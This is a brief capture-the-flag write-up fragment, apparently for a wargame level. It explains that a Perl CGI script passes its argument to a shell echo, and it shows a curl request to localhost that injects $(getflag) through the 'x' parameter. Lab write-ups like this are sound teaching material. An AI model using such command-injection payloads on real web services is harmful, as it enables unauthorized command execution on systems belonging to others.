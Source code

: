 The script take an argument and litteraly run it as `echo [arg] 2>&1` so...
```
curl "http://localhost:4747/level04.pl?x=\$(getflag)"
```
